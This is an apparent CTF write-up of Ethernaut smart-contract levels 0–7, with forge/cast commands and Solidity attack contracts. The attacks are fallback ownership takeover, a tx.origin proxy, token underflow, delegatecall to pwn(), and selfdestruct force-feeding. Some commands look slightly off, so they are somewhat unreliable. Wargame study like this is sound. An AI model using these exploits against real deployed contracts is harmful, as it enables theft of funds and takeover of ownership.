 # Ethernaut-ctf-solutions
i'm using sepolia testnet for the transactions, u can choose testnet accordingly. All the instance code is in instances folder.

## level00 - Hello Ethernaut
  1. As we can see all the functions are directing us to authenticate() fun. where we need to
     enter password.
  2. we can get the password from console
     ```console
     await contract.password()
     ```
  3. then we can either use console
     ```console
     await contract.authenticate("ethernaut0")
     ```
     or run our script file level00.s.sol
     ```terminal
     forge script ./script/level00.s.sol broadcast -vvvv --rpc-url $RPC_URL --private-key $PKEY
     ```
  4. submit the instance, u're done

## level01 - Fallback
  1. our main goal here is to be the owner and drain the contract balance, we can do this by two ways
     1. either keep contributing using contribute() to make your contribution 
        more then the current owner and use withdraw() which is not a feasible 
        solution obvi.
     2. or we can use the receive() fun. where we need to fulfill two basic conditions, msg.value>0 and contibutions[msg.sender]>0 , which is 
        comparatively easy, then use withdraw(), so proceeding with this option
  2. first we can use contribute() fun. to send some wei then use low level call
     function to make our msg.value>0
  3. As both condition satisfies, we'll be the owner , now all we need to do is
     use withdraw() to get all the funds out.
  4. checkout level01.s.sol for the code, run the script file on testnet
     ```terminal
     forge script ./script/level01.s.sol broadcast -vvvv --rpc-url $RPC_URL --private-key $PKEY
     ```
  5. submit the instance , u're done
     
## level02 - Fallout
  1. same as previous one we need to get the ownership here
  2. we can achieve that by simply calling Fal1out() either from the console
     ```console
     await contract.Fal1out()
     ```
     or using script file level02.s.sol
  3. submit the instance, u're done.

## level04 - Telephone
  1. goal is to claim ownership but there's a condition, tx.origin != 
     msg.sender
  2. tx.origin always refers to the original sender (or the EOA), while msg.sender refers to the sender of the current message (or call) in the context of the contract
  3. to do this, we'll use a proxy contract with source code:
     ```solidity
     // SPDX-License-Identifier: MIT
     pragma solidity ^0.8.0;
     import "../instances/Ilevel04.sol";
 
     contract Tele {
         Telephone level4 = Telephone(0x3d3F549676B9812D256F63C96b4b80FE06522736);
         function exploit() external {
             level4.changeOwner(0xB63bF09362065C621E3552D646F938662911f33a);
         }
     }
     ```
  4. deploy our contract
     ```terminal
     forge create Tele --rpc-url $RPC_URL --private-key $PKEY
     ```
  5. call the exploit function
     ```terminal
     cast call $DEPLOYED_ADDRESS "exploit()" --rpc-url $RPC_URL --private-key $PKEY
     ```
     here the tx.origin will be our address and msg.sender will be the address of contract we deployed rn
  6. after being the owner, submit instance, u're done.
          
## level05 - Token
  1. the goal here is to get our hands on any additional token
  2. vulnerability lies here in the 2nd line of transfer function where it is 
     deducting msg.sender's balance, as this contract uses older version of
     solidity it is prone to underflow/overflow.
  3. so the hack is we'll cause an underflow by sending 21 tokens which will make
     balance[msg.sender] = 20 - 21 = max limit for uint256, and increase it by a large value
  4. we can do this by calling transfer function either thru cast send command
     ```terminal
     cast send $LEVEL_ADDRESS "transfer(address _to, uint256 _value)" 0xb364AC25023f1859df404e4AE9aeC80Ab425b0C7 21 --rpc-url $RPC_URL --private-key $PKEY
     ```
     or using our script file level05.s.sol
     ```terminal
     forge script ./script/level05.s.sol broadcast -vvvv --rpc-url $RPC_URL --private-key $PKEY
     ```
  5. submit the instance, u're done.
     
## level06 - Delegation
  1. our goal here is to claim ownership of the given instance which we can do 
     using pwn() fun.
  2. We need to trigger the fallback function in the Delegation contract to invoke the pwn() function via msg.data which will then make a delegate
     call to pwn() and make msg.sender the owner.
  3. to do this first we need to get methodId of pwn()
     ```terminal
     cast calldata "pwn()"
     ```
     then call the fallback fun.
     ```terminal
     cast send $LEVEL_ADDRESS 0xdd365b8b --gas-limit 50000 --rpc-url $RPC_URL --private-key $PKEY
     // we need to set a custom gas limit for this transaction as the default amount insufficient
     ```
  4. send the transaction, submit instance, u're done 
     
## level07 - Force 
  1. here we need to increase the balance of our contract, but neither it has any recieve() or fallback() fun. , so what we gonna use is selfdestruct()
  2. preferably, we'll use remix as new versions of solidity doesn't support 
     selfdestruct(), source code:
     ```solidity
     // SPDX-License-Identifier: MIT
     pragma solidity ^0.6.0;
      
     contract Forced{
         constructor () public payable {
             selfdestruct(0x2BA0bf631A0c17C516D74634E24fCA5Fff21575f); //level add.
         }
     }
     ```
  3. we'll send some eth at deployment time to increase contract balance and cuz of selfdestruct all this will go to Force contract 
  4. we're using selfdestruct() in constructor itself, so it can operate at deployment time and we don't need to call any other function
  5. submit the instance after deployment, u're done.

     
